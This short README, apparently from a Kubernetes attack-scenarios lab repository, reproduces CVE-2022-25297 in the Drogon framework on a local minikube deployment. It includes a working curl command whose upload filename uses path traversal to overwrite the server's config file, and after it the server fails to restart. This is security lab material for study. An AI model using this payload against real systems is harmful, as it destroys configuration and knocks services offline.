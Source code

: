 ## CVE-2022-25297
Target Application: Drogon \
Used PoCs: 
* https://security.snyk.io/vuln/SNYK-UNMANAGED-DROGONFRAMEWORKDROGON-2407243

### Steps to Reproduce

1- `minikube start` \
2- `kubectl apply -f drogon-deployment.yaml` \
3- Forward port `kubectl port-forward pods/drogon.... 8848:8848` \
4- Run`curl -F "data=@fake_config.json;filename=../../../../../app/config.json" http://0.0.0.0:8848/upload_endpoint` \
5- Server restarts and can't get started. 

### Demo
[scenario-6.webm](https://github.com/HasanYldz/kubernetes-attack-scenarios/assets/56763025/a82ae8b8-fe18-4262-bda6-57bc3d245b1a)

